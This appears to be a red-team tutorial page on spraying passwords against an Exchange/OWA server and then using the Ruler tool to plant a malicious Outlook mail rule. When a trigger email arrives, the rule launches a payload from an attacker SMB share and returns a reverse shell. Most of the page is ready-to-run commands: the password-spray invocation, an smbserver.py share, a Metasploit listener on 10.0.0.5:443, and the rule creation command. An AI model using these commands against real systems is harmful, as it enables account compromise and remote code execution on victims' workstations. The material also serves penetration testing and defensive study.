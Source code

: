 # Password Spraying OWA to RCE


### Getting a Shell via Malicious Email Rule
If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage Ruler to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

### A high level overwiew of how the spraying and remote code execution works:
1. assume you have obtained working credentials during the spray for the user `spotless@offense.local`.
2. with the help of Ruler, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of:
`if emailSubject contains someTriggerWord start pathToSomeProgram`.
3. A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`.
4. User spotless logs on to his/her workstation and launches Outlook client to check for new email.
5. Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in pathToSomeProgram which is pointing to a malicious payload giving a reverse shell to the attacker.

## How to Exploit

### Password Spraying
```bash
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```

### Getting a Shell via Malicious Email Rule
* Let's validate the compromised credentials are working by checking if there are any email rules created already:
```bash
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

* We now need to create an SMB share that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:
```bash
smbserver.py tools /root/tools/
```

* Next, we setup a metasploit listener to catch the incoming reverse shell:
```bash
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```

* Finally, we fire up the ruler and create the malicious email rule:
```bash
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```

<img src="https://github.com/Mehdi0x90/Red-Team/assets/17106836/640ebd5a-f763-4916-a76d-260cf9fe2fd5" width="400" height="500">


* If you want to delete the malicious email rule, do this:
```bash
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```















































































